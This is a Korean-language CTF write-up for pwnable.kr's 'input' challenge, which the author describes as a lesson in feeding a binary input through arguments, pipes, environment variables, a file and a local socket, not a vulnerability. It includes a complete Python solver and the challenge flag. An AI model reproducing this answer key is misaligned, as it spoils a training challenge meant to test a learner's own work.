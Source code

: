 ```yaml
---
layout: post
title: input
category: 
rpath: /resource/input
tag: [python] 
---
```


**Category:** Pwnable

**Source:** pwnable.kr

**Points:** 40

**Author:** Jisoon Park(js00n.park)

**Description:** 

> Mom? how can I pass my input to a computer program?

## Write-up

input 문제는 특별한 보안 취약점을 묻는 문제가 아니다.  
소스 코드를 보면, 바이너리에 다양한 방법으로 입력을 주는 방법에 대한 지식을 묻고 있는 것을 알 수 있다.

![img]({{site.github.master}}{{page.rpath}}/code.png)

총 다섯개의 stage를 돌파하면 flag 값을 주게 되어 있는데, exploit을 C로 구현할 경우 좀 더 쉬워지는 stage도 있지만 앞으로 문제를 풀어나가려면 python에 익숙해지는 과정이 필요하니 조금 어렵더라도 python을 이용해서 문제를 풀어보기를 추천한다.

취약점 내용이 아닌 관계로, 각 stage를 일일이 설명하지 않고 문제 해결을 위한 코드를 첨부한다.

```python
import subprocess
import os, sys, struct
import socket, time

#stage 1
cmd = ["/home/input2/input"];

for i in range(99):
	cmd = cmd + ["A"];
cmd[65] = "";
cmd[66] = "\x20\x0a\x0d";
cmd[67] = "25009";

#stage 2: creat pipe
(r0, w0) = os.pipe();
(r2, w2) = os.pipe();

#stage 3 
my_env = os.environ.copy();
my_env["\xde\xad\xbe\xef"] = "\xca\xfe\xba\xbe";

#stage 4
f = open("\x0a", "w");
f.write("\x00\x00\x00\x00");
f.close();

#launch command
p = subprocess.Popen(cmd, stdin=r0, stderr=r2, env=my_env);

#stage 2: send message by pipe
os.write(w0, buffer("\x00\x0a\x00\xff"));
os.close(r0);
os.close(w0);

os.write(w2, buffer("\x00\x0a\x02\xff"));
os.close(r2);
os.close(w2);

#stage 5
time.sleep(1);			#give time to perpare server socket
host="127.0.0.1";
port=25009;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
try:
	s.connect((host, port));

	s.send(buffer("\xde\xad\xbe\xef"));
	s.close();
except Exception as e:
	print('Connection failed to server ' + host);

time.sleep(1);
p.poll();
```

/tmp 디렉토리에 적당한 디렉토리를 생성하여 위 코드를 넣고, flag에 symbolic link를 건 뒤 실행하면 flag를 얻을 수 있다.

![img]({{site.github.master}}{{page.rpath}}/run.png)

Flag : **Mommy! I learned how to pass various input in Linux :)**
